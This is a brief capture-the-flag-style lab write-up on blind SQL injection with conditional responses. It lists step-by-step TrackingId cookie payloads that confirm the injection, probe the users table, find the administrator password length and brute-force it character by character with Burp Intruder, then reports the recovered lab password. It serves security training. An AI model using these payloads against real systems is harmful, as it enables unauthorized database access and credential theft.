 Lab 11 - Blind SQL injection with conditional responses

## 1) Confirm that the parameter is vulnerable to blind SQLi
testing for response with welcome back massage
by payload

TrackingId=1k2UOfwhpyOj77BA' and 1=1--

the massgae come back that means that the parameter is vulnerable to blind SQLi

## 2) Confirm that we have a users table
using payload
trackingId = '1k2UOfwhpyOj77BA' and (select 'x' from users LIMIT 1)='x'--'

the massgae come back that means that the users table is in database

## 3) Confirm that username administrator exists users table
using payload
' and (select username from users where username='administrator')='administrator'--'

the massgae come back that means that the users administrator is in database

## 4) knowing  the password length of the administrator user
using payload with burp intruder to bruteforce the length of password
' and (select username from users where username='administrator' and LENGTH(password)>19)='administrator'--'

i found password is 20 characters

## 5) brute force the password
using burp intruder to brute force the characters
with two payloads one on the character index and one on every character to guess it
and filter for welcome word
' and (select substring(password,2,1) from users where username='administrator')='a'--'

![image](https://github.com/user-attachments/assets/5bb4a248-13f5-4a95-bb7b-98df308d0478)
the password is
r3s1k6jwbwn9qu94h4qm

